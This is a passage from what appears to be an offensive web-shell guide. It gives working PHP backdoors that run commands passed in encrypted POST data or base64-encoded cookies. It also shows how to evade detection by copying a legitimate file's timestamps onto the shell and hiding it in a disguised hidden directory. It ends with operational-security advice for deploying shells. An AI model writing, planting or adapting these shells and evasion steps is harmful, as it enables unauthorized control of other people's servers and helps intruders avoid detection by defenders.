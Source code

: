 #### Traffic Obfuscation

**Encrypted Communication:**
```php
<?php
$key = 'secretkey';
$cmd = openssl_decrypt($_POST['data'], 'AES-256-CBC', $key);
system($cmd);
?>
```

**Covert Channels:**
```php
<?php
// Command in cookie
if(isset($_COOKIE['session'])) {
    system(base64_decode($_COOKIE['session']));
}
?>
```

#### File System Evasion

**Timestamp Manipulation:**
```bash
# Match timestamps to legitimate files
touch -r /var/www/html/index.php /var/www/html/shell.php
```

**Hidden Directories:**
```bash
# Use hidden directories
mkdir /var/www/html/.config
cp shell.php /var/www/html/.config/update.php
```

## Best Practices and Operational Security

### Deployment Guidelines

1. **Reconnaissance First**
   - Identify web server technology
   - Determine supported file types
   - Map upload functionality
   - Test file restrictions

2. **Shell Customization**
   - Remove identifying signatures
   - Implement authentication
   - Customize appearance
   - Limit functionality as needed

3. **Access Management**
   - Use HTTPS when possible
   - Implement session management
   - Monitor access attempts
   - Plan for emergency removal
